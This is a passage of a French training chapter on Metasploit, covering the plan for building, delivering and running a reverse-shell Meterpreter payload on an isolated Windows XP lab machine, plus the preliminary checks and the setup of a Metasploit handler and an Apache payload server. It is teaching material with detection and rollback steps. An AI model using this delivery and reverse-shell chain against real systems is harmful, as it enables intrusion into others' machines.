


# Chapitre 2 — Metasploit et développement de payload/malware Windows XP

Ce chapitre couvre la génération de payloads avec Metasploit, leur livraison par HTTP et leur exécution réelle sur la VM Windows XP du laboratoire. Il produit des preuves d'exécution, une session Meterpreter, une capture réseau, des indicateurs de compromission et des règles de détection. Les anciens labs de ce chapitre — déni de service, injection SQL, dépassement de tampon et Active Directory — sont conservés dans les annexes A et B, sans modification de leurs commandes.

> **Périmètre** — Toutes les manipulations de ce chapitre sont réalisées dans le réseau host-only `192.168.56.0/24` du laboratoire. Aucune cible réelle, aucun réseau de production et aucune sortie Internet ne sont utilisés.

## Objectif du chapitre

À la fin de ce chapitre, vous devez être capable de :

- expliquer le rôle de `msfconsole`, de `msfvenom`, du handler et des sessions Metasploit ;
- distinguer un payload staged d'un payload stageless et choisir le type adapté à Windows XP ;
- générer un exécutable Windows avec `msfvenom`, l'encoder et vérifier son type et son empreinte ;
- héberger le payload sur Apache, le livrer à Windows XP et provoquer son exécution ;
- obtenir une session Meterpreter, exécuter des commandes de reconnaissance et collecter des preuves ;
- capturer le trafic, analyser les journaux et rédiger des règles de détection ;
- nettoyer les artefacts, restaurer le snapshot et vérifier le retour à l'état sain.

Le fil conducteur est une chaîne complète : génération sur Kali, livraison HTTP, exécution sur Windows XP, session inverse, collecte de preuves, détection et rollback. Chaque lab produit un dossier de preuves distinct sous `preuves/ch2-lab01/` à `preuves/ch2-lab05/`.

## Périmètre du laboratoire

| Élément | Valeur |
|---|---|
| Machine attaquante et serveur de payloads | Kali Linux, `192.168.56.101` |
| Cible des payloads | Windows XP, `192.168.56.104` |
| Hôte VirtualBox | `192.168.56.1`, interface `vboxnet0` |
| Réseau | host-only `192.168.56.0/24`, DHCP VirtualBox désactivé |
| Snapshot de référence Windows XP | `WinXP` |
| Répertoire de preuves | `preuves/ch2-lab01/` à `preuves/ch2-lab05/` |
| Hors périmètre | Windows Server 2016 `192.168.56.102`, Metasploitable 2 `192.168.56.103`, Internet, toute cible réelle |

Les annexes A et B conservent les cibles d'origine de leurs labs respectifs, notamment Metasploitable 2 et Windows Server 2016. Elles ne font pas partie du parcours principal de ce chapitre.

Règles du laboratoire :

- Kali et Windows XP sont connectés uniquement au réseau host-only. Le NAT et le pont réseau restent désactivés pendant les labs.
- Un snapshot propre de Windows XP est pris avant le premier payload. Le snapshot est restauré à la fin du Lab-05.
- Les payloads sont générés, hébergés et exécutés uniquement sur les VMs du laboratoire. Ils ne doivent jamais être copiés vers un système réel.
- Windows XP est un système en fin de vie, isolé et sans correctifs de sécurité récents. Son comportement ne représente pas celui d'un système maintenu.
- Les preuves sont horodatées et conservées après le rollback. Le rollback supprime les artefacts d'exécution, pas les preuves.

> **Limite pédagogique** — Windows XP ne dispose ni de Sysmon, ni de journalisation process extensive par défaut. Les règles de détection du Lab-05 sont donc présentées pour un système Windows moderne équivalent, avec une explication des capteurs disponibles sur XP. Cette limite est traitée explicitement dans le lab.

## Durée estimée

| Activité | Durée indicative |
|---|---|
| Lecture du cours et du modèle de menace | 45 minutes |
| Lab-01 — Prise en main de Metasploit et serveur de payloads | 30 minutes |
| Lab-02 — Génération des payloads Windows XP | 45 minutes |
| Lab-03 — Livraison et exécution sur Windows XP | 50 minutes |
| Lab-04 — Session Meterpreter et collecte de preuves | 40 minutes |
| Lab-05 — Nettoyage, rollback et détection | 45 minutes |
| **Total** | **environ 4 heures 15** |

La durée inclut la lecture des résultats attendus et la rédaction des preuves. Elle n'inclut pas l'installation de VirtualBox, de Kali ou de Windows XP, traitée au chapitre 1.

## Prérequis

**Avant de commencer, assurez-vous d'avoir :**

- terminé le chapitre 1 : réseau host-only opérationnel, Kali et Windows XP joignables, fonction `prouve` disponible ;
- sur Kali, les paquets `metasploit-framework`, `apache2`, `tcpdump`, `curl`, `file` et `coreutils` installés ;
- sur Kali, un accès `sudo` pour démarrer Apache, lire les journaux et capturer le trafic ;
- sur l'hôte, VirtualBox et l'outil en ligne de commande `VBoxManage` ;
- la VM Windows XP démarrée, connectée au réseau host-only (adaptateur `vboxnet0` côté hôte), avec le compte `win` et le mot de passe `win` ;
- le snapshot `WinXP` présent dans la VM Windows XP ;
- au moins 5 Go d'espace disque libre pour les preuves et la capture réseau ;
- aucun dossier partagé entre l'hôte et Windows XP pendant les labs.

| Élément | Détail |
|---|---|
| Machine attaquante | Kali Linux, `192.168.56.101`, 2 vCPU, 2 Go de RAM minimum |
| Cible | Windows XP, `192.168.56.104`, 1 vCPU, 192 Mo de RAM minimum (1 Go recommandé) |
| Hôte | `192.168.56.1`, interface `vboxnet0` |
| Outils Kali | `msfconsole`, `msfvenom`, `apache2ctl`, `curl`, `tcpdump`, `file`, `sha256sum` |
| Outils hôte | `VBoxManage` |
| Comptes | `kali`/`kali` sur Kali, `win`/`win` sur Windows XP |
| Connaissances | Terminal Linux, réseau TCP/IP, HTTP, notions de processus Windows |
| Sécurité | Réseau isolé, snapshot avant test, rollback après test |

> **Convention de preuve** — Les commandes Kali utilisent la fonction `prouve` du chapitre 1. Elle écrit l'horodatage, la commande, la sortie complète et le code retour dans un fichier de `preuves/`. Si vous avez ouvert un nouveau terminal, rechargez-la avant de continuer :

```bash
source /home/kali/prouve.sh
type prouve
```

Le résultat attendu est `prouve is a function`. Le motif `commande | tee fichier` seul reste interdit sur Kali : il perd `stderr` et le code retour.

## Vocabulaire

| Terme | Définition dans ce chapitre |
|---|---|
| **Payload** | Code exécuté sur la cible après exploitation ou exécution par l'utilisateur. Ici, un exécutable Windows généré par `msfvenom`. |
| **Stager** | Premier composant d'un payload staged. Il établit la connexion vers Kali, puis télécharge le second composant. |
| **Stage** | Second composant d'un payload staged, téléchargé par le stager après la connexion initiale. |
| **Staged** | Payload en deux parties : un petit stager, puis un stage plus volumineux. Exemple : `windows/meterpreter/reverse_tcp`. |
| **Stageless** | Payload autonome en une seule partie. Exemple : `windows/meterpreter_reverse_tcp`. |
| **Meterpreter** | Payload avancé de Metasploit qui fournit un canal chiffré et des commandes intégrées (`sysinfo`, `getuid`, `download`, `screenshot`). |
| **Handler** | Module Metasploit qui écoute les connexions inverses d'un payload. Ici, `exploit/multi/handler`. |
| **Session** | Canal ouvert entre le handler et le payload exécuté sur la cible. Une session Meterpreter donne accès aux commandes Meterpreter. |
| **LHOST** | Adresse IP sur laquelle Kali écoute. Dans ce chapitre : `192.168.56.101`. |
| **LPORT** | Port TCP sur lequel Kali écoute. Dans ce chapitre : `4444`, `4445` ou `5555` selon le payload. |
| **Reverse shell** | Connexion initiée par la cible vers Kali. Elle traverse plus facilement un pare-feu que l'écoute directe. |
| **Encodage** | Transformation de la représentation du payload, par exemple avec `x86/shikata_ga_nai`. Il ne garantit pas l'évasion antivirus. |
| **C2** | Canal de commande et contrôle entre la cible compromise et l'attaquant. |
| **IOC** | Indicateur de compromission : nom de fichier, empreinte, URL, port, processus, adresse IP ou journal. |
| **Rollback** | Restauration du snapshot Windows XP pour revenir à l'état antérieur aux tests. |
| **PE32** | Format de fichier exécutable Windows 32 bits produit par `msfvenom` pour Windows XP. |

## Modèle de menace et cartographie ATT&CK

**Profil de l'attaquant** — L'attaquant dispose d'un accès au réseau host-only et d'une session Kali. La cible est une VM Windows XP sur laquelle un utilisateur `win` est connecté ; l'attaquant compte sur l'exécution du payload par cet utilisateur. Il ne dispose d'aucun accès physique à la VM cible et d'aucun identifiant d'administration supplémentaire. Son objectif est d'obtenir l'exécution de code sous le compte `win`, puis une session de commande et contrôle.

**Ce que l'attaquant cherche** — Un exécutable accepté par Windows XP, une connexion sortante non filtrée vers Kali, une session Meterpreter, des informations système et des fichiers accessibles au compte `win`. Il cherche aussi à mesurer la discrétion de chaque variante de payload.

**Ce que le défenseur voit** — Une requête HTTP `GET` vers un fichier `.exe` sur le serveur Apache de Kali, un fichier déposé dans `C:\Temp`, un processus créé par `explorer.exe`, une connexion TCP sortante vers `192.168.56.101:4444`, puis des commandes de découverte exécutées dans la session. Sur Windows XP, les capteurs sont limités : journal de sécurité, journaux applicatifs, journaux du pare-feu, `tasklist` et capture réseau sur le segment.

**Hypothèses et limites** — Le laboratoire suppose que Windows XP exécute le payload avec les droits du compte `win`. Aucune élévation de privilèges locale, aucune persistance et aucun mouvement latéral ne sont réalisés dans ce chapitre. Les techniques correspondantes sont hors périmètre et relèvent des chapitres suivants.

| Technique | ID | Tactique | Usage dans le chapitre | Source de données | Contrôle D3FEND | Lab |
|---|---|---|---|---|---|---|
| Develop Capabilities: Malware | T1587.001 | Resource Development | Génération des exécutables avec `msfvenom` | DS0022 File ; DS0017 Command | D3-FIM File Integrity Monitoring ; D3-EDL Executable Denylisting | Lab-02 |
| Obfuscated Files or Information | T1027 | Defense Evasion | Encodage `x86/shikata_ga_nai` avec trois itérations | DS0022 File ; DS0009 Process | D3-EFA Executable File Analysis ; D3-EDL Executable Denylisting | Lab-02 |
| User Execution: Malicious File | T1204.002 | Execution | Téléchargement puis double-clic sur le payload dans Windows XP | DS0009 Process ; DS0022 File | D3-PSA Process Spawn Analysis ; D3-EDL Executable Denylisting | Lab-03 |
| Windows Command Shell | T1059.003 | Execution | Shell `cmd.exe` obtenu avec `windows/shell/reverse_tcp` | DS0017 Command ; DS0009 Process | D3-PSA Process Spawn Analysis | Lab-03, Lab-04 |
| Ingress Tool Transfer | T1105 | Command and Control | Téléchargement du fichier `.exe` depuis Kali vers Windows XP | DS0029 Network Traffic ; DS0015 Application Log | D3-NTA Network Traffic Analysis ; D3-OTF Outbound Traffic Filtering | Lab-03 |
| Non-Application Layer Protocol | T1095 | Command and Control | Canal TCP brut de `reverse_tcp` vers le port 4444 | DS0029 Network Traffic | D3-NTA Network Traffic Analysis ; D3-OTF Outbound Traffic Filtering | Lab-03, Lab-05 |
| System Owner/User Discovery | T1033 | Discovery | `getuid`, `echo %USERNAME%` | DS0009 Process ; DS0017 Command | D3-PSA Process Spawn Analysis | Lab-04 |
| System Information Discovery | T1082 | Discovery | `sysinfo`, `systeminfo`, `ipconfig /all` | DS0009 Process ; DS0017 Command | D3-PSA Process Spawn Analysis | Lab-04 |
| File and Directory Discovery | T1083 | Discovery | `ls`, `dir`, `search -f` dans la session | DS0022 File ; DS0009 Process | D3-PSA Process Spawn Analysis ; D3-FIM File Integrity Monitoring | Lab-04 |

> **Lecture du tableau** — `T1105` couvre la livraison HTTP du payload. Le canal de commande et contrôle de `reverse_tcp` est un flux TCP brut, cartographié par `T1095`. Cette distinction évite de confondre le transport du fichier et le canal de la session.

**Techniques volontairement hors périmètre** — La persistance (`T1547`), le vidage d'identifiants (`T1003`), le mouvement latéral (`T1021`) et l'effacement des traces (`T1070`) ne sont pas exécutés dans ce chapitre. Ils appartiennent aux chapitres suivants ou à des labs dédiés. Les citer dans une règle de détection ne signifie pas qu'ils sont mis en œuvre ici.



**Fig 2.1** — Chaîne de génération, livraison, exécution et session du chapitre 2.



**Fig 2.2** — Points d'observation défensive sur la chaîne d'exécution.

Les deux figures se lisent de gauche à droite pour la première, de haut en bas pour la seconde. La figure 2.1 décrit l'action offensive ; la figure 2.2 décrit les capteurs qui peuvent l'observer. Aucune des deux ne représente une cible réelle.

## Plan d'attaque maître

Le plan suivant fixe l'ordre des labs, la cible, les techniques ATT&CK et la preuve attendue. Aucune commande offensive n'est exécutée avant ce plan.

| Ordre | Lab | Objectif | Cible | Tactique | Techniques ATT&CK | Preuve attendue |
|---|---|---|---|---|---|---|
| 1 | Lab-01 | Prendre en main Metasploit et préparer le serveur de payloads | Kali `192.168.56.101`, Windows XP pour le test HTTP | Préparation | Aucune technique offensive exécutée | `preuves/ch2-lab01/` : version, configuration Apache, accès HTTP depuis XP |
| 2 | Lab-02 | Générer quatre payloads Windows XP et comparer leurs caractéristiques | Kali `192.168.56.101` | Resource Development ; Defense Evasion | T1587.001 ; T1027 | `preuves/ch2-lab02/` : sorties `msfvenom`, tailles, types, empreintes |
| 3 | Lab-03 | Livrer et exécuter les payloads sur Windows XP, obtenir une session | Windows XP `192.168.56.104` | Execution ; Command and Control | T1204.002 ; T1105 ; T1095 ; T1059.003 | `preuves/ch2-lab03/` : handler, session, journal Apache, capture réseau |
| 4 | Lab-04 | Explorer la session Meterpreter et collecter les preuves système | Windows XP `192.168.56.104` | Discovery ; Execution | T1033 ; T1082 ; T1083 ; T1059.003 | `preuves/ch2-lab04/` : `sysinfo`, `getuid`, processus, capture d'écran, `boot.ini` |
| 5 | Lab-05 | Nettoyer, restaurer le snapshot et produire les détections | Kali et Windows XP | Défense | Détection de T1105, T1204.002, T1059.003, T1033, T1082, T1083 | `preuves/ch2-lab05/` : rollback, journaux, analyse PCAP, règles de détection, IOC |

Règles d'exécution du plan :

- Les labs sont exécutés dans l'ordre. Le Lab-03 dépend des fichiers produits au Lab-02 et du serveur configuré au Lab-01.
- Chaque lab se termine par un contrôle de preuve. Une preuve absente ou un code retour non nul doit être expliqué avant de passer au lab suivant.
- Le snapshot `WinXP` est pris avant le Lab-03. Il est restauré au Lab-05, après la fermeture des sessions et la suppression des fichiers de test.
- Aucun payload n'est conservé sur Windows XP après le Lab-05. Les fichiers du serveur Apache sont supprimés après la collecte des empreintes.
- Les adresses, ports et noms de fichiers du plan sont identiques dans tous les labs.

## Vérification préalable

Les contrôles suivants vérifient l'état du laboratoire avant toute génération de payload. Ils n'exécutent aucune action offensive.

### Contrôle 1 — Réseau et joignabilité

**Machine** — Kali. **Prérequis** — VM Kali démarrée, interface host-only connectée.

```bash
source /home/kali/prouve.sh
prouve preuves/ch2-lab01/reseau.txt bash -c '
  ip -4 addr show
  ip route get 192.168.56.104
  ping -c 3 192.168.56.104
'
```

- `source /home/kali/prouve.sh` : charge la fonction `prouve` dans le shell courant. À refaire dans chaque nouveau terminal.
- `prouve ... bash -c '...'` : exécute la vérification réseau sous la fonction de preuve et enregistre la sortie complète.
- `ip -4 addr show` : affiche toutes les interfaces IPv4 de Kali. Repérez celle qui porte `192.168.56.101`.
- `ip route get 192.168.56.104` : affiche l'interface et l'adresse source utilisées pour joindre Windows XP.
- `ping -c 3 192.168.56.104` envoie trois requêtes ICMP à Windows XP et vérifie la joignabilité de la cible.
- Un échec de `ping` peut venir d'un pare-feu Windows XP qui bloque l'ICMP ; dans ce cas, testez le port HTTP avec `curl` depuis Kali après le démarrage d'Apache.
- Piège : `vboxnet0` est le nom de l'adaptateur host-only côté hôte VirtualBox. Dans la VM Kali, l'interface porte généralement un autre nom (`eth0`, `eth1`, `enp0s3`...). Ne remplacez pas `ip -4 addr show` par `ip -4 addr show vboxnet0` sans avoir vérifié le nom.

Résultat attendu :

```text
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    inet 192.168.56.101/24 brd 192.168.56.255 scope global eth0
192.168.56.104 dev eth0 src 192.168.56.101 uid 1000
3 packets transmitted, 3 received, 0% packet loss
```

Le nom de l'interface (`eth0`, `eth1`, `enp0s3`...) et l'identifiant `uid` varient. L'adresse `192.168.56.101/24` et la perte `0%` sont les valeurs à vérifier.

**Preuve** — `preuves/ch2-lab01/reseau.txt` avec `prouve`.

### Contrôle 2 — Outils et services

**Machine** — Kali. **Prérequis** — session shell ouverte.

```bash
source /home/kali/prouve.sh
prouve preuves/ch2-lab01/outils.txt bash -c '
  command -v msfconsole msfvenom apache2ctl curl tcpdump file sha256sum
  msfconsole --version
  apache2ctl -v
'
```

- `source /home/kali/prouve.sh` : charge la fonction `prouve` si le terminal est nouveau.
- `bash -c '...'` exécute une petite séquence sous la même preuve.
- `command -v` affiche le chemin de chaque outil ; un chemin absent signale un paquet manquant.
- `msfconsole --version` affiche la version du framework Metasploit.
- `apache2ctl -v` affiche la version d'Apache HTTP Server.

Résultat attendu :

```text
/usr/bin/msfconsole
/usr/bin/msfvenom
/usr/sbin/apache2ctl
/usr/bin/curl
/usr/bin/tcpdump
/usr/bin/file
/usr/bin/sha256sum
Framework Version: 6.x
Server version: Apache/2.4.x (Debian)
```

Les versions exactes dépendent de l'image Kali. Notez-les dans la preuve ; elles servent de référence pour interpréter les tailles de payloads.

**Preuve** — `preuves/ch2-lab01/outils.txt`.

### Contrôle 3 — Snapshot Windows XP

**Machine** — hôte VirtualBox. **Prérequis** — VM Windows XP arrêtée ou snapshot pris à chaud.

```bash
mkdir -p preuves/ch2-lab05
{
  printf '# date: %s\n# cmd: %s\n' "$(date -Is)" "VBoxManage snapshot WinXp list"
  VBoxManage snapshot WinXp list
  printf '# rc=%d\n' "$?"
} 2>&1 | tee preuves/ch2-lab05/snapshots-avant.txt
```

- `mkdir -p preuves/ch2-lab05` : crée le dossier de preuves sur l'hôte.
- `{ ... }` : regroupe les commandes pour produire une preuve unique.
- `printf '# date: ...'` et `printf '# rc=...'` : ajoutent l'horodatage, la commande et le code retour au format de preuve.
- `VBoxManage` est l'outil en ligne de commande de VirtualBox, exécuté sur l'hôte.
- `snapshot WinXp list` liste les snapshots de la VM nommée `WinXp`.
- `tee` : affiche la sortie et l'écrit dans le fichier de preuve.
- La commande doit afficher un snapshot nommé `WinXP`. Si le snapshot est absent, créez-le avant le Lab-03 avec `VBoxManage snapshot WinXp take WinXP --description "Etat sain avant payloads chapitre 2"`.

Résultat attendu :

```text
# date: ...
# cmd: VBoxManage snapshot WinXp list
   Name: WinXP (UUID: ...) *
# rc=0
```

**Preuve** — `preuves/ch2-lab05/snapshots-avant.txt` sur l'hôte, avec la date, la commande et le code retour.

### Contrôle 4 — Dossiers de preuve et fonction `prouve`

**Machine** — Kali. **Prérequis** — session shell ouverte.

```bash
mkdir -p preuves/ch2-lab01 preuves/ch2-lab02 preuves/ch2-lab03 preuves/ch2-lab04 preuves/ch2-lab05
source /home/kali/prouve.sh
prouve preuves/ch2-lab01/controle-prouve.txt type prouve
```

- `mkdir -p` crée les cinq dossiers de preuve sans erreur s'ils existent déjà.
- `source` charge la fonction `prouve` dans le shell courant.
- `type prouve` vérifie que la fonction est disponible ; la preuve contient `prouve is a function`.

Résultat attendu :

```text
prouve is a function
prouve ()
{
    local fichier="$1"; shift
    mkdir -p "$(dirname "$fichier")"
    { printf '# date: %s\n# cmd: %s\n' "$(date -Is)" "$*"
      "$@"; printf '# rc=%d\n' "$?"
    } 2>&1 | tee "$fichier"
}
```

**Preuve** — `preuves/ch2-lab01/controle-prouve.txt`.

Une fois ces quatre contrôles passés, le laboratoire est prêt. Le Lab-01 configure le serveur de payloads et vérifie la chaîne de livraison sans générer de charge malveillante.

## Lab-01 — Prise en main de Metasploit et préparation du serveur de payloads

### Énoncé / Contexte

Ce premier lab prépare l'infrastructure des quatre labs suivants. Il ne génère aucun payload et n'exécute aucune action offensive sur Windows XP. Il vérifie que Metasploit répond, que le module `exploit/multi/handler` est disponible, que le répertoire `/var/www/payloads` est servi par Apache et que Windows XP peut atteindre ce répertoire par HTTP.

**Place dans la chaîne** — avant la génération des payloads (Lab-02), la livraison (Lab-03) et l'exploitation de la session (Lab-04). Sans serveur HTTP fonctionnel, le Lab-03 ne peut pas livrer de fichier à Windows XP.

**Objectifs pédagogiques** — à la fin de ce lab, vous devez être capable de :

- charger la fonction `prouve` et créer l'arborescence de preuves du chapitre ;
- vérifier la version de Metasploit et localiser le module `exploit/multi/handler` ;
- lire les options `LHOST`, `LPORT` et `ExitOnSession` du handler ;
- créer un répertoire de payloads lisible par Apache et inscriptible par l'utilisateur `kali` ;
- configurer un alias Apache `/payloads` avec le listing désactivé ;
- prouver l'accès depuis Windows XP par une entrée dans le journal Apache.

**Périmètre et sécurité** — les commandes de ce lab s'exécutent sur Kali `192.168.56.101`. Seul le test HTTP final implique Windows XP `192.168.56.104`, en lecture d'un fichier texte. Aucun exécutable n'est généré ni téléchargé. Le réseau reste host-only, sans NAT ni Internet.

**Critères de réussite** — le répertoire `/var/www/payloads` existe, Apache répond `403` sur le listing, le fichier `test.txt` répond `200`, le journal Apache contient une requête provenant de `192.168.56.104`, et chaque commande a produit une preuve avec `# date:`, `# cmd:` et `# rc=`.

### Outils et commandes utilisées

| Outil | Commande | Rôle |
|---|---|---|
| `msfconsole` | `msfconsole --version` | Afficher la version du framework Metasploit |
| `msfconsole` | `msfconsole -q -x "search type:exploit name:handler"` | Rechercher le module handler sans ouvrir la console interactive |
| `msfconsole` | `msfconsole -q -x "use exploit/multi/handler; show options"` | Inspecter les options du handler |
| `apache2ctl` | `apache2ctl configtest` | Vérifier la syntaxe de la configuration Apache |
| `a2enconf` | `a2enconf payloads` | Activer le fichier de configuration `payloads.conf` |
| `service` | `service apache2 restart` | Redémarrer Apache pour appliquer l'alias |
| `curl` | `curl -s -o /dev/null -w '%{http_code}'` | Tester le code HTTP d'une URL |
| `prouve` | `prouve fichier commande` | Journaliser `stdout`, `stderr` et le code retour |

### Commande et laboratoire étape par étape

#### Étape 1 — Charger la fonction de preuve et créer les dossiers

**But** — disposer de la fonction `prouve` dans le shell courant et créer le dossier de preuves du Lab-01.

**Machine** — Kali `192.168.56.101`, terminal local ou session SSH.

**Prérequis** — chapitre 1 terminé, fichier `/home/kali/prouve.sh` présent, session ouverte avec l'utilisateur `kali`.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
cd /home/kali
source /home/kali/prouve.sh
mkdir -p preuves/ch2-lab01
prouve preuves/ch2-lab01/etape1-prouve.txt type prouve
```

**Explication de la commande**

- `cd /home/kali` : place le shell dans le répertoire personnel de `kali`, où se trouve `prouve.sh`.
- `source /home/kali/prouve.sh` : lit le fichier dans le shell courant et y définit la fonction `prouve`. Ne lancez pas `./prouve.sh` : le script s'exécuterait dans un shell enfant et la fonction disparaîtrait au retour.
- `mkdir -p preuves/ch2-lab01` : crée le dossier de preuves du lab. `-p` crée les parents et ne renvoie pas d'erreur si le dossier existe déjà.
- `prouve preuves/ch2-lab01/etape1-prouve.txt type prouve` : exécute `type prouve` sous la fonction de preuve. Le fichier reçoit la date, la commande, la sortie et le code retour.
- `type prouve` : affiche la définition de la fonction si elle est chargée. C'est le contrôle positif de l'étape.
- Piège : `chmod +x` et `./prouve.sh` ne remplacent pas `source`. La fonction doit être définie dans le shell qui exécute les commandes du lab.

**Résultat attendu**

```text
prouve is a function
prouve ()
{
    local fichier="$1"; shift
    mkdir -p "$(dirname "$fichier")"
    { printf '# date: %s\n# cmd: %s\n' "$(date -Is)" "$*"
      "$@"; printf '# rc=%d\n' "$?"
    } 2>&1 | tee "$fichier"
}
```

Le fichier `preuves/ch2-lab01/etape1-prouve.txt` se termine par `# rc=0`.

**Preuve** — `preuves/ch2-lab01/etape1-prouve.txt`.

#### Étape 2 — Vérifier Metasploit et localiser le handler

**But** — confirmer que `msfconsole` fonctionne et que le module `exploit/multi/handler` est installé.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — fonction `prouve` chargée, paquet `metasploit-framework` installé.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab01/metasploit-version.txt msfconsole --version
prouve preuves/ch2-lab01/recherche-handler.txt bash -c 'msfconsole -q -x "search type:exploit name:handler; exit"'
```

**Explication de la commande**

- `prouve ... msfconsole --version` : exécute `msfconsole` avec l'option `--version`, qui affiche la version du framework et quitte sans ouvrir la console.
- `bash -c '...'` : exécute la chaîne entre guillemets dans un shell enfant. Nécessaire pour enchaîner `msfconsole` et `exit` sous une seule preuve.
- `msfconsole -q` : démarre Metasploit en mode silencieux, sans bannière ni invites décoratives.
- `-x "search type:exploit name:handler; exit"` : exécute les commandes Metasploit puis quitte. `search` filtre les modules ; `type:exploit` limite la recherche aux modules d'exploitation ; `name:handler` cherche les modules dont le nom contient `handler`.
- `exit` : ferme la console Metasploit et rend la main au shell.
- Piège : sans `exit`, `msfconsole -q -x` peut rester ouvert et bloquer la preuve. Vérifiez que la commande se termine par `exit`.

**Résultat attendu**

```text
Framework Version: 6.4.0-dev
Matching Modules
================

   0  exploit/multi/handler   ...
```

La version exacte dépend de l'image Kali. Le module `exploit/multi/handler` doit apparaître dans la liste. S'il est absent, le paquet `metasploit-framework` est incomplet : réinstallez-le avant de continuer.

**Preuve** — `preuves/ch2-lab01/metasploit-version.txt` et `preuves/ch2-lab01/recherche-handler.txt`.

#### Étape 3 — Lire les options du handler

**But** — identifier les options `LHOST`, `LPORT` et `ExitOnSession` qui seront utilisées au Lab-03.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — module `exploit/multi/handler` présent.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab01/handler-options.txt bash -c 'msfconsole -q -x "use exploit/multi/handler; show options; show advanced; back; exit"'
```

**Explication de la commande**

- `use exploit/multi/handler` : sélectionne le module handler comme module courant.
- `show options` : affiche les options du module et du payload par défaut, notamment `LHOST` et `LPORT`.
- `show advanced` : affiche les options avancées, dont `ExitOnSession`, qui n'apparaît pas dans `show options`.
- `back` : quitte le module courant sans fermer la console.
- `exit` : ferme la console et termine la preuve.
- `LHOST` : adresse d'écoute du handler. Elle doit correspondre à une adresse de Kali joignable depuis Windows XP, ici `192.168.56.101`.
- `LPORT` : port d'écoute. La valeur par défaut est `4444` ; le Lab-03 utilise `4444`, `4445` et `5555` selon le payload.
- `ExitOnSession` : lorsqu'il vaut `false`, le handler reste actif après la première session. Cette valeur est indispensable pour tester plusieurs payloads sans relancer la console.
- Piège : le payload par défaut du handler est `generic/shell_reverse_tcp`. Au Lab-03, il faudra définir explicitement `PAYLOAD` avec le même type que l'exécutable généré, sinon la session ne s'ouvrira pas.

**Résultat attendu**

```text
Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Advanced options (exploit/multi/handler):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   ExitOnSession   false            no        ...
```

**Preuve** — `preuves/ch2-lab01/handler-options.txt`.

#### Étape 4 — Créer le répertoire de payloads

**But** — disposer d'un répertoire servi par Apache et inscriptible par `kali` pour y déposer les exécutables du Lab-02.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — accès `sudo`, Apache installé.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
sudo mkdir -p /var/www/payloads
sudo chown kali:kali /var/www/payloads
chmod 755 /var/www/payloads
prouve preuves/ch2-lab01/repertoire-payloads.txt ls -ld /var/www/payloads
```

**Explication de la commande**

- `sudo mkdir -p /var/www/payloads` : crée le répertoire sous la racine web d'Apache. `sudo` est nécessaire car `/var/www` appartient à `root`.
- `sudo chown kali:kali /var/www/payloads` : donne à l'utilisateur `kali` et à son groupe la propriété du répertoire. `msfvenom` pourra y écrire sans `sudo`, ce qui évite un mot de passe caché dans la preuve.
- `chmod 755` : autorise la lecture et la traversée pour tous, et l'écriture uniquement au propriétaire. Apache peut lire les fichiers ; les autres utilisateurs ne peuvent pas les modifier.
- `ls -ld` : affiche les permissions et le propriétaire du répertoire lui-même, sans lister son contenu.
- Piège : `chmod 777` est inutile et dangereux, même dans un laboratoire. `755` suffit pour Apache.

**Résultat attendu**

```text
drwxr-xr-x 2 kali kali 4096 ... /var/www/payloads
```

**Preuve** — `preuves/ch2-lab01/repertoire-payloads.txt`.

#### Étape 5 — Configurer l'alias Apache `/payloads`

**But** — rendre `http://192.168.56.101/payloads/` servi par Apache, avec le listing de répertoire désactivé.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — Apache installé, répertoire `/var/www/payloads` créé.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
sudo tee /etc/apache2/conf-available/payloads.conf > /dev/null <<'EOF'
Alias /payloads /var/www/payloads
<Directory /var/www/payloads>
    Options -Indexes
    Require all granted
</Directory>
EOF
sudo a2enconf payloads
sudo apache2ctl configtest
sudo service apache2 restart
prouve preuves/ch2-lab01/apache-config.txt sudo bash -c 'apache2ctl configtest; systemctl is-active apache2'
```

**Explication de la commande**

- `sudo tee /etc/apache2/conf-available/payloads.conf` : écrit la configuration dans un nouveau fichier avec les droits de `root`.
- `> /dev/null` : masque la copie de l'entrée standard sur la sortie standard ; le fichier est tout de même écrit.
- `<<'EOF'` : heredoc littéral. Les variables et caractères spéciaux ne sont pas interprétés, ce qui évite toute substitution involontaire.
- `Alias /payloads /var/www/payloads` : associe l'URL `/payloads` au répertoire `/var/www/payloads`. Sans cet alias, Apache chercherait le chemin sous `/var/www/html` et renverrait `404`.
- `<Directory /var/www/payloads>` ouvre un bloc de règles appliqué à ce répertoire uniquement.
- `Options -Indexes` : interdit l'affichage automatique du contenu du répertoire. Une requête sur `/payloads/` renvoie `403 Forbidden`, ce qui est le comportement attendu.
